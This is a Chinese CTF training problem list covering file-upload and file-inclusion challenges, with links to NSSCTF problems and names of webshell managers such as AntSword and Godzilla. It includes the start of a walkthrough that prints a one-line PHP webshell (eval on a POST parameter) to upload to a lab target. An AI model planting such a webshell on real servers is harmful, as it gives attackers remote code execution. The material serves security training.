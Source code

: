 # 2025-01-22题单

## 今日主题关键词

进阶，文件上传，文件包含，一句话木马，php伪协议

## 今日题目

- [ ] 10金币 [SWPUCTF 2021 新生赛]easyupload1.0 https://www.nssctf.cn/problem/388
- [ ] 20金币 [鹏城杯 2022]简单包含 https://www.nssctf.cn/problem/2422
- [ ] 30金币 [FSCTF 2023]是兄弟，就来传你の🐎！ https://www.nssctf.cn/problem/4561
- [ ] 20金币 [HNCTF 2022 WEEK2]easy_include https://www.nssctf.cn/problem/2948

### 题目清单：

看到关键词和题目的名称，就知道我们需要用一些webshell管理工具，比如[中国蚁剑](https://www.yuque.com/antswordproject/antsword/pgxa1h)，菜刀，[哥斯拉](https://github.com/BeichenDream/Godzilla)……

#### [SWPUCTF 2021 新生赛]easyupload1.0

进入靶机后发现一个简易的文件上传点
![](./imgs/20250122集训_文件上传点.png)

写一个简单的一句话木马然后传上去
```php
<?php @eval($_POST['cmd']); ?># 此处的cmd是之后连接用的密码
```

![](./imgs/20250122集训_传php.png)

